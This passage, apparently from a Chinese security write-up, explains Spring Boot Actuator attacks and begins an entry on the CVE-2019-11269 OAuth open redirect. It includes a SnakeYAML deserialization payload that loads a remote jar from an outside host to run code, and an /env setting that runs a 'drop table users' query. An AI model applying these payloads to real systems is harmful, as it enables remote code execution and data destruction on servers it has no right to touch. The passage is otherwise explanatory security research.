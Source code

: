 该请求修改了“ spring.cloud.bootstrap.location”属性，该属性用于加载外部配置并以YAML格式解析它。为了做到这一点，我们还需要调用“/refresh”端点。

```


1.  `POST /refresh HTTP/1.1`
2.  `Host: 127.0.0.1:8090`
3.  `Content-Type: application/x-www-form-urlencoded`
4.  `Content-Length: 0`


```

从远程服务器获取YAML配置时，将使用SnakeYAML库进行解析，该库也容易受到反序列化攻击。有效载荷（yaml-payload.yml）可以通过使用前述的Marshalsec研究生成：

```


1.  `!!javax.script.ScriptEngineManager [`
2.   `!!java.net.URLClassLoader [[`
3.   `!!java.net.URL ["http://artsploit.com/yaml-payload.jar"]`
4.   `]]`
5.  `]`


```

该jar文件的反序列化将触发提供的URLClassLoader的ScriptEngineManager构造函数的执行。jar文件可以在如下地址找到：[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

5.  /env配置

除了关于执行RCE的地方，还有一些设置也很有用。

**spring.datasource.tomcat.validationQuery = drop + table + users-**允许您指定任何SQL查询，它将针对当前数据库自动执行。它可以是任何语句，包括插入，更新或删除。

**spring.datasource.tomcat.url** = jdbc:hsqldb:[https://localhost:3002/xdb允许您修改当前的JDBC连接字符串。](https://localhost:3002/xdb%E5%85%81%E8%AE%B8%E6%82%A8%E4%BF%AE%E6%94%B9%E5%BD%93%E5%89%8D%E7%9A%84JDBC%E8%BF%9E%E6%8E%A5%E5%AD%97%E7%AC%A6%E4%B8%B2%E3%80%82)

这种设置只在1.x中，在Spring Boot 2.x中，改为了json格式。

### [](#CVE-2019-11269-Spring-Security-OAuth-开放重定向 "CVE-2019-11269 Spring Security OAuth 开放重定向")CVE-2019-11269 Spring Security OAuth 开放重定向

此漏洞为CVE-2019-3778的延伸版本，效果一致

影响版本：

```


1.  `Spring Security OAuth 2.3至2.3.5`
2.  `Spring Security OAuth 2.2至2.2.4`
3.  `Spring Security OAuth 2.1至2.1.4`
4.  `Spring Security OAUth 2.0至2.0.17`


```
